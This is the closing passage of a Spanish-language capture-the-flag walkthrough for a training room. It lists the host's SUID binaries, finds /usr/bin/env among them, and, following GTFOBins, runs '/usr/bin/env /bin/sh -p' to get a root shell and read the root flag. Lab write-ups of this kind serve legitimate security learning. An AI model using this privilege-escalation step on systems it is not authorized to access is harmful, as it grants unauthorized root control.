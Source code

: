 ```console
-rwsr-xr-x 1 root root 40432 Mar 25  2019 /snap/core/9066/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 Mar 25  2019 /snap/core/9066/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 Mar 25  2019 /snap/core/9066/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 Mar 25  2019 /snap/core/9066/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Jan 31  2020 /snap/core/9066/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve 42992 Nov 29  2019 /snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /snap/core/9066/usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 110792 Apr 10  2020 /snap/core/9066/usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root dip 394984 Feb 11  2020 /snap/core/9066/usr/sbin/pppd
-rwsr-xr-x 1 root root 26696 Mar  5  2020 /bin/umount
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 43088 Mar  5  2020 /bin/mount
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-- 1 root messagebus 42992 Jun 10  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-sr-x 1 root root 109432 Oct 30  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 35000 Jan 18  2018 /usr/bin/env
-rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 40344 Mar 22  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 149080 Jan 31  2020 /usr/bin/sudo
-rwsr-xr-x 1 root root 18448 Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-sr-x 1 daemon daemon 51464 Feb 20  2018 /usr/bin/at
-rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
```

Tenemos `/usr/bin/env`&nbsp;&nbsp;a nuestra disposición. Nos vamos a [GTFOBins](https://gtfobins.github.io/), buscamos por *env* y le damos a la cajita que pone *suid*.

Leemos la entrada y nos quedamos con que lo que debemos ejecutar es:

```
/usr/bin/env /bin/sh -p
```

Vamos a ello.

```
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
/usr/bin/env /bin/sh -p
whoami
root
cd /root
ls
root.txt
cat root.txt
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

Bien, tenemos la flag de root.

Hasta aquí la guía para resolver el room. Espero que os haya resultado útil.

Saludos.